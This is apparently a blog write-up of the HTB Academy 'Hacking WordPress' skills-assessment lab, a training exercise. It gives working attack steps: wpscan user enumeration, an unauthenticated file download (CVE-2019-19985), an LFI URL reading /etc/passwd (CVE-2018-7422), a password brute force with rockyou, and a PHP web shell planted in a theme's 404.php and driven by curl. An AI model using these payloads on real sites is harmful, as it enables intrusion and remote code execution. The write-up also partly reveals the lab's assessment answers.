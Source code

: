 ```yaml
---
title: 'HTB Academy: Hacking WordPress Module'
author: saramazal
date: 2024-11-05
categories: [HackTheBox Academy]
tags: [wordpress, htb, cbbh, cpts, skills assessment, wpscan]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/wp-cover.png
---
```



## Penetration Test Scenario

You have been contracted to perform an external penetration test against the company INLANEFREIGHT that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

## Questions

1. Identify the WordPress version number.
2. Identify the WordPress theme in use.
3. Submit the contents of the flag file in the directory with directory listing enabled.
4. Identify the only non-admin WordPress user. (Format: `<first-name> <last-name>`)
5. Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.
6. What is the version number of the plugin vulnerable to an LFI?
7. Use the LFI to identify a system user whose name starts with the letter “f”.
8. Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory.

## Answers

For identifying the WordPress version number and theme, use one of these tools:

- Wappalyzer Extension
- View Page Source or DevTools
- nmap scan
- `wpscan —url http://<target_ip> —enumerate p`

For receiving results, add target IP to hosts:

```bash
sudo nano /etc/hosts
```

Add: `<target_ip> blog.inlanefreight.local`

Refresh your browser. Now you can find the WordPress version number and theme with Wappalyzer, View Page Source/DevTools, or use `wpscan`.

- **WordPress version number**: 5.1.6
- **WordPress theme in use**: Twenty Nineteen

In our `wpscan`, we can find a link:

`http://blog.inlanefreight.local/wp-content/uploads/`

You can open this link in the browser or use the terminal:

```bash
curl http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt | html2text
```

- **Flag**: HTB{d1sabl3_……………..!}

For finding users:

```bash
wpscan --url http://blog……/ --enumerate u
```

- **Non-admin user**: Cha**** Wig****

In our `wpscan`, we can find vulnerable plugins and search about them on Google.

One of the plugins:

- **WordPress Plugin**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019-19985

### Exploit Details

- **Exploit Title**: WordPress Plugin Email Subscribers & Newsletters 4.2.2 — Unauthenticated File Download
- **Google Dork**: “Stable tag” inurl:wp-content/plugins/email-subscribers/readme.txt
- **Date**: 2020–07–20
- **Exploit Author**: KBA@SOGETI_ESEC
- **Vendor Homepage**: [Email Subscribers](https://www.icegram.com/email-subscribers/)
- **Software Link**: [Plugin Archive](https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2)
- **Version**: <= 4.2.2
- **Tested on**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019–19985

**Example Command**:

```bash
curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- **Flag from vulnerable plugin**: HTB{unauTH_……..!}

From our `wpscan`, we can search the exploit database for:

- **Vulnerable Plugin**: Site Editor
- **CVE ID**: CVE-2018-7422
- **Product**: Site Editor WordPress Plugin — [Site Editor](https://wordpress.org/plugins/site-editor/)
- **Vendor**: Site Editor
- **Tested version**: 1.1.1
- **CVE ID**: CVE-2018–7422

### Proof of Concept

```bash
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **Version number of the plugin vulnerable to an LFI**: 1.1.1

**Use Proof of Concept**:

```bash
http://<$TARGET>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **System user**: frank.mclane

Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory:

```bash
wpscan --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/wordlists/rockyou.txt
```

Login with: `erika:010203`

Go to the theme editor. Select the Twenty Sixteen Theme. Add to the `404.php` page:

```php
system ($_GET['cmd']);
```

Save and check how it works:

```bash
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=pwd'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/dxxxxxxx603c_flag.txt'

```

- **Final Flag**: HTB{w0rdPr355_………7}

  [![HTB Academy Badge](/images/htb-academy/htb-wp.png){: width="600" height="150" .shadow }](https://academy.hackthebox.com/achievement/badge/e8bc07e8-0d0f-11ef-b18d-bea50ffe6cb4)

[Hacking WordPress Module](https://academy.hackthebox.com/course/preview/hacking-wordpress)

## Great! Happy Hacking
